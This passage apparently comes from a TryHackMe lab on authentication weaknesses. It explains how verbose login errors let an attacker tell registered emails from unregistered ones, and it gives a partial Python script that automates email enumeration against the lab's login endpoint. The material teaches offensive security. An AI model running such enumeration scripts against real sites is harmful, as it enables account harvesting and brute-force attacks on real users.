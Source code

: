 #### The Role of Enumeration and Brute Forcing

When it comes to breaching authentication, enumeration and brute forcing often go hand in hand:

* **User Enumeration**: Discovering valid usernames sets the stage, reducing the guesswork in subsequent brute-force attacks.
* **Exploiting Verbose Errors**: The insights gained from these errors can illuminate aspects like password policies and account lockout mechanisms, paving the way for more effective brute-force strategies.

In summary, verbose errors are like breadcrumbs leading attackers deeper into the system, providing them with the insights needed to tailor their strategies and potentially compromise security in ways that could go undetected until it’s too late.

#### Enumeration in Authentication Forms

In this HackerOne [report](https://hackerone.com/reports/1166054), the attacker was able to enumerate users using the website's Forget Password function. Similarly, we can also enumerate emails in login forms. For example, navigate to [http://enum.thm/labs/verbose\_login/](http://enum.thm/labs/verbose\_login/) and put any email address in the Email input field.

When you input an invalid email, the website will respond with "Email does not exist." indicating that the email has not been registered yet.

![Email does not exist error message](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1718887845395)

However, if the email is already registered, the website will respond with an "Invalid password" error message, indicating that the email exists in the database but the password is incorrect.

![Invalid password error message](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1718887844791)

#### Automation

Below is a Python script that will check for valid emails in the target web app. Save the code below as script.py.

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

```